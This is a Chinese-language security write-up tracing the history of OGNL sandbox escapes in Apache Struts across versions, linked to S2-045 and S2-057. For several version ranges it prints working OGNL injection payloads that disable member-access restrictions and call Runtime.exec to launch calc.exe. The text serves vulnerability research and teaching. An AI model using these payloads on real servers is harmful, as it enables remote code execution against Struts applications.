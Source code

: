 - [Ognl沙盒逃逸](#ognl沙盒逃逸)
  - [OGNL结构](#ognl结构)
  - [沙盒逃逸历史](#沙盒逃逸历史)
    - [_memberAccess](#_memberaccess)
    - [Before 2.3.14.1](#before-23141)
    - [After 2.3.14.1](#after-23141)
    - [In  2.3.20~2.3.29](#in--23202329)
    - [Before 2.5.10](#before-2510)
    - [Before 2.5.13](#before-2513)
    - [Before 2.5.16](#before-2516)
    - [Before 2.5.25](#before-2525)
    - [Before 2.5.29](#before-2529)
  - [参考](#参考)
# Ognl沙盒逃逸
## OGNL结构
在OGNL中表达式的执行是有一个执行环境的,这个环境称为标准命名上下文(context map),而这个上下文环境是一个Map结构.  
而且在上下文中有一个默认的根对象,在语法上通过表达式可以直接访问根对象的属性而不需要添加前缀.,但访问上下文中的其它对象时则需要在属性名前添加`#`符号,当不使用`#`访问属性时,OGNL会默认在根对象中寻找该属性,只有使用`#`时OGNL才会在context map中寻找该属性.  
在Struts中,context map被设置为了一个ActionContext,而根对象则是ValueStack,同时在ActionContext中除了根对象还存放了一些和Application,Session,action,requests,params,attr等其它Map结构的对象.    
![](2022-05-13-15-24-05.png)  
action对象表示了当前请求的一些信息,而且action对象总是会被压入ValueStack中,所以访问action对象的属性并不需要用`#`.  
而要获取到ActionContext可以通过`ActionContext`内某些对象的`getContext`静态方法来得到.  
以ValueStack为例:  
![](2022-05-13-15-36-57.png)
## 沙盒逃逸历史
### _memberAccess
SecurityMemberAccess是ValueStack中的一个对象为MemberAccess的子类.  
![](2022-05-13-16-59-04.png)  
用于控制OGNL表达式能做什么,其中的`allowStaticMethodAccess`属性设置为false,表示不允许访问静态方法,导致无法直接通过getRuntime()执行命令,同时还有一些如`allowPrivateAccess`,`allowProtectedAccess`和`allowPackageProtectedAccess`来控制 OGNL如何访问 Java 类的方法和成员.  

![](2022-04-15-18-38-35.png)  
可以看到默认不允许访问static方法,private方法和protected方法.  
### Before 2.3.14.1
而在 2.3.14.1之前`_memberAccess`对象是可以访问的的,导致我们可以直接修改`_memberAccess[allowStaticMethodAccess]`为ture,从而访问到getRuntime()执行命令.  

poc:`%{(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`
可以看到`allowStaticMethodAccess`被修改为True.
![](2022-04-15-18-46-43.png)  
### After 2.3.14.1
在2.3.14.1之后`_memberAccess['allowStaticMethodAccess']`变成立final类型,导致无法再修改该属性.  
但其实`_memberAccess`中并没有限制访问public方法,所以直接new一个ProcessBuilder即可.
![](2022-04-15-18-55-33.png)
### In  2.3.20~2.3.29
在2.3.20之后,添加了`excludedClasses`,`excludedPackageNames`和`excludedPackageNamePatterns`作为黑名单,将java.lang,ognl,javax三个包加入了黑名单.
![](2022-04-18-10-59-14.png)  
然而在Ognl.OgnlContext中还有一个默认的`DefaultMemberAccess`,在这个`DefaultMemberAccess`中并没有通同步之前的黑名单机制,并且可以访问静态方法  
![](2022-04-18-10-53-04.png)  
![](2022-04-18-11-01-29.png)  
其只有默认的安全限制,直接替换`_memberAccess`为`DefaultMemberAccess`即可.  
poc:`%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`.  
![](2022-04-18-11-12-23.png)
### Before 2.5.10
在2.3.30中,又新增了两个黑名单为`ognl.MemberAccess,ognl.DefaultMemberAccess`,导致无法访问到`DefaultMemberAccess`.  
![](2022-04-18-14-31-33.png)  
![](2022-04-18-14-31-57.png)   
在Context map还有一个可利用的属性为`com.opensymphony.xwork2.ActionContext.container`  
![](2022-04-18-14-57-11.png)  
其定义为  
```java
public static final String CONTAINER = "com.opensymphony.xwork2.ActionContext.container";
```
其中一个`getInstance`方法如下,用于返回执行环境中的一个实例.    
![](2022-04-18-14-58-46.png)  
而初始化`securityMemberAccess`的属性时是通过`OgnlUtil`的属性进行设置的.  
![](2022-04-18-15-21-14.png)
且`OgnlUtil`是单实例模式,所以只用通过`OgnlUtil`访问到`excludedClasses`再执行HashSet的clear方法将黑名单的类置空即可再次访问到`DefaultMemberAccess`.  
poc:`%{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`  
![](2022-04-18-15-26-28.png)    
这也是s2-045的攻击方式.
### Before 2.5.13
在2.5.10之后excludedClasses和excludedPackageNames都是不可变的了,为UnmodifiableSet,无法再调用其clear方法来清空黑名单.  
![](2022-05-12-17-42-03.png)  
但是虽然中Set黑名单集合里面的元素无法改变,但我们可以直接调用ognlUtil的setExcludedPackageNames和setExcludedClasses来创建两个新的Set黑名单来直接修改Set本身.
![](2022-05-13-18-03-13.png)
poc:`%{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('')).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`  
![](2022-05-12-17-50-26.png)
### Before 2.5.16
在2.5.13中则直接删除了对`context map`的访问权限,导致无法通过`context map`获取到`container`.  
![](2022-05-12-17-57-16.png)  
但是从官方文档可以看到不止一个地方存有context对象,在context map的某些属性中保留了对context map的引用.    
![](2022-05-12-18-07-51.png)  
以attr对象为例,从其`struts.valueStack`属性中还是可以间接获取到context map.  
![](2022-05-12-18-09-08.png)  
因此只需要在Poc中修改context的来源即可.  
poc:`%{(#con=#attr['struts.valueStack'].context).(#container=#con['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('')).(#con.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`   
![](2022-05-12-18-17-52.png)  
这也是S2-057的RCE方法
### Before 2.5.25
参考CVE-2020-17530(s2-061).
### Before 2.5.29
参考CVE-2021-31805(s2-062).
## 参考  
https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776/